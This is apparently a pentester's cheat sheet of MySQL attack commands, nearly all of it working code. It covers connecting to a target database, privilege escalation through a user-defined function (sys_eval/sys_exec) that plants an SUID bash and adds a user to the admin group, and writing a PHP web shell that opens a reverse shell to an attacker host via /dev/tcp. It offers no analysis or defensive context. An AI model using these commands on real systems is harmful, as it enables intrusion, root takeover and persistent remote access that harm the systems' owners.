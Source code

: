 
Connect to MYSQL server:
---
#mysql #connect

```shell
mysql -h $TARGET_IP -u $USER -p
```

Priv esc if running as root:
#mysql #privesc #priv-esc

```mysql
use mysql;
show tables;
select * from func;
CREATE FUNCTION sys_eval RETURNS INT SONAME 'lib_mysqludf_sys.so';
SELECT sys_eval("cp /bin/bash /var/tmp/bash ; chmod u+s /var/tmp/bash");
```

OR

```mysql
select sys_exec('cp /bin/sh /tmp; chown root:root /tmp/sh; chmod +s /tmp/sh');
select sys_exec('usermod -a -G admin USER');
```

```shell
cd /var/tmp
./bash -p
```

```mysql
select "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/$ATTACKER/4444 0>&1'\");?>" into outfile "/var/www/.../shell.php";
```
---